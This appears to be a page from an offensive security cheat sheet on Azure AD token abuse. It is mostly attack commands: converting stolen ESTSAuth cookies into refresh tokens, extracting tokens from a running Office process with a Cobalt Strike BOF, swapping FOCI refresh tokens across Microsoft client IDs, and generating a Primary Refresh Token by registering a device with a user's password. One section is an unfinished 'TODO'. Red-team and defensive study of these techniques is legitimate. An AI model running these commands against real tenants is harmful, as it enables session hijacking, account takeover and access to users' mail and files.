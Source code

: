 # Azure AD Tokens


## Access Token

Decode access tokens: [jwt.ms](https://jwt.ms/)

* Request an access token using a service principal password
    ```ps1
    curl --location --request POST 'https://login.microsoftonline.com/<tenant-name>/oauth2/v2.0/token' \
    --header 'Content-Type: application/x-www-form-urlencoded' \
    --data-urlencode 'client_id=<client-id>' \
    --data-urlencode 'scope=https://graph.microsoft.com/.default' \
    --data-urlencode 'client_secret=<client-secret>' \
    --data-urlencode 'grant_type=client_credentials'
    ```
* Use an access token
    ```ps1
    # use the jwt
    $token = "eyJ0eXAiO..."
    $secure = $token | ConvertTo-SecureString -AsPlainText -Force
    Connect-MgGraph -AccessToken $secure

    # whoami
    Get-MgContext
    Disconnect-MgGraph
    ```


## Refresh Token

* Requesting a token using credentials
    ```ps1
    TODO
    ```
* 


### Get a Refresh Token from ESTSAuth Cookie

`ESTSAuthPersistent` is only useful when a CA policy actually grants a persistent session. Otherwise, you should use `ESTSAuth`.

```ps1
TokenTacticsV2> Get-AzureTokenFromESTSCookie -ESTSAuthCookie "0.AS8"
TokenTacticsV2> Get-AzureTokenFromESTSCookie -Client MSTeams -ESTSAuthCookie "0.AbcAp.."
```


### Get a Refresh Token from Office process

* [trustedsec/CS-Remote-OPs-BOF](https://github.com/trustedsec/CS-Remote-OPs-BOF)
```ps1
load bofloader
execute_bof /opt/CS-Remote-OPs-BOF/Remote/office_tokens/office_tokens.x64.o --format-string i  7324
```


## FOCI Refresh Token

FOCI allows applications registered with Azure AD to share tokens, minimizing the need for separate authentications when a user accesses multiple applications that are part of the same "family."

* [secureworks/family-of-client-ids-research/](https://github.com/secureworks/family-of-client-ids-research/blob/main/scope-map.txt) - Research into Undocumented Behavior of Azure AD Refresh Tokens

**Generate tokens**   

```ps1
roadtx gettokens --refresh-token <refresh-token> -c <foci-id> -r https://graph.microsoft.com 
roadtx gettokens --refresh-token <refresh-token> -c 04b07795-8ddb-461a-bbee-02f9e1bf7b46
```

```
scope                                       resource                                                          client                              
.default                                    04b07795-8ddb-461a-bbee-02f9e1bf7b46                              04b07795-8ddb-461a-bbee-02f9e1bf7b46
                                            1950a258-227b-4e31-a9cf-717495945fc2                              1950a258-227b-4e31-a9cf-717495945fc2
                                            https://graph.microsoft.com                                       00b41c95-dab0-4487-9791-b9d2c32c80f2
                                                                                                              04b07795-8ddb-461a-bbee-02f9e1bf7b46
                                            https://graph.windows.net                                         00b41c95-dab0-4487-9791-b9d2c32c80f2
                                                                                                              04b07795-8ddb-461a-bbee-02f9e1bf7b46
                                            https://outlook.office.com                                        00b41c95-dab0-4487-9791-b9d2c32c80f2
                                                                                                              04b07795-8ddb-461a-bbee-02f9e1bf7b46
Files.Read.All                              d3590ed6-52b3-4102-aeff-aad2292ab01c                              d3590ed6-52b3-4102-aeff-aad2292ab01c
                                            https://graph.microsoft.com                                       d3590ed6-52b3-4102-aeff-aad2292ab01c
                                            https://outlook.office.com                                        1fec8e78-bce4-4aaf-ab1b-5451cc387264
Mail.ReadWrite.All                          https://graph.microsoft.com                                       00b41c95-dab0-4487-9791-b9d2c32c80f2
                                            https://outlook.office.com                                        00b41c95-dab0-4487-9791-b9d2c32c80f2
                                            https://outlook.office365.com                                     00b41c95-dab0-4487-9791-b9d2c32c80f2
```


## Primary Refresh Token

* Use PRT token
    ```ps1
    roadtx browserprtauth -prt roadtx.prt -url http://www.office.com
    ```


### Extract PRT on Device with TPM

* No method known to date.


### Generate a PRT by registering a device

```ps1
roadtx interactiveauth -u user.lastname@domain.local -p password123 -r devicereg
roadtx device -n devicename
roadtx prt -u user.lastname@domain.local -p password123 –-key-pem devicename.key –-cert-pem devicename.pem
roadtx prtenrich –prt roadtx.prt
roadtx prt -u user.lastname@domain.local -p password123 –-key-pem devicename.key –-cert-pem devicename.pem -r 0.AVAApQL<snip>
```


## References

* [Hacking Your Cloud: Tokens Edition 2.0 - Edwin David - April 13, 2023](https://trustedsec.com/blog/hacking-your-cloud-tokens-edition-2-0)
* [Microsoft 365 Developer Program](https://developer.microsoft.com/en-us/microsoft-365/dev-program)
